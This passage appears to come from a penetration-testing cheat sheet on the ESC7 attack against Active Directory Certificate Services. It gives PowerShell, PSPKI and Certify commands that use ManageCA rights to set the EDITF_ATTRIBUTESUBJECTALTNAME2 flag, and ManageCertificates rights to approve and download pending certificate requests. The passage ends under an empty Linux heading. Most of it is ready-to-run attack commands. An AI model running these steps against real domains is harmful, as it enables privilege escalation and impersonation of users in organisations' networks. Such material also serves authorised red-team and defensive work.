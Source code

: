 ### ESC7 : Sufficient rights against the CA

* [https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse#vulnerable-ca-aces-esc7](https://ppn.snovvcrash.rocks/pentest/infrastructure/ad/ad-cs-abuse#vulnerable-ca-aces-esc7)

#### Windows

* _If an attacker gains control over a principal that has the **ManageCA** right over the CA, he can remotely flip the `EDITF_ATTRIBUTESUBJECTALTNAME2` bit to allow SAN specification in any template_

```powershell
# If RSAT is not present on the machine
DISM.exe /Online /Get-Capabilities
DISM.exe /Online /add-capability /CapabilityName:Rsat.CertificateServices.Tools~~~~0.0.1.0

# Install PSPKI
Install-Module -Name PSPKI
Import-Module PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.contoso.local | Get-CertificationAuthorityAcl | select -ExpandProperty access

$configReader = New-Object SysadminsLV.PKI.Dcom.Implementations.CertSrvRegManagerD "CA.contoso.com"
$configReader.SetRootNode($true)
$configReader.GetConfigEntry("EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")
$configReader.SetConfigEntry(1376590, "EditFlags", "PolicyModules\CertificateAuthority_MicrosoftDefault.Policy")

# Check after setting the flag (EDITF_ATTRIBUTESUBJECTALTNAME2 should appear in the output)
certutil.exe -config "CA.consoto.local\CA" -getreg "policy\EditFlags"
reg query \\CA.contoso.com\HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\CertSvc\Configuration\contoso-CA-CA\PolicyModules\CertificateAuthority_MicrosoftDefault.Policy /v EditFlags
```

* _If an attacker gains control over a principal that has the **ManageCertificates** right over the CA, he can remotely approve pending certificate requests, subvertnig the "CA certificate manager approval" protection_

```powershell
# Request a certificate that requires manager approval with Certify
Certify.exe request /ca:CA.contoso.local\CA01 /template:ApprovalNeeded
...
[*] Request ID : 1337

# Approve a pending request with PSPKI
PSPKI > Get-CertificationAuthority -ComputerName CA.contoso.local | Get-PendingRequest -RequestID 1337 | Approve-CertificateRequest

# Download the issued certificate with Certify
Certify.exe download /ca:CA.contoso.local\CA01 /id:1337
```

#### Linux
